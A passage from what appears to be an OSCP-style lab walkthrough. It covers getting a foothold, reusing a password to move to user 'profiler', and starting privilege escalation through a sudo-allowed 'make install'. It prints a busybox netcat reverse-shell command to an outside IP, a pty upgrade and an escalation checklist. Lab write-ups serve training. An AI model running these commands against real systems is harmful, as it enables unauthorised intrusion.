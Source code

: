 It works:

![image.png](image%208.png)

`Busybox` is installed on the target let’s get a shell using it:

![image.png](image%209.png)

```powershell
busybox nc 192.168.45.159 443 -e /bin/bash
```

Now I have a shell:

![image.png](image%2010.png)

Let’s make it more interactive using python.

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")
```

## Lateral Movement

We see user `profiler` present on the target, now we need to do lateral movement. I checked under `/var/www/html` nothing found, then I used same password for `profiler` user and it worked.

## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

Running `sudo` I see that I can run the following command as root:

```powershell
User profiler may run the following commands on spx:
    (ALL) /usr/bin/make install -C /home/profiler/php-spx
```

It just copies binaries to specific locations.

[What does 'make install' do?](https://superuser.com/questions/360178/what-does-make-install-do)

I should find mostly `cp` command in file, I found this section where it perform install operation:

![image.png](image%2011.png)

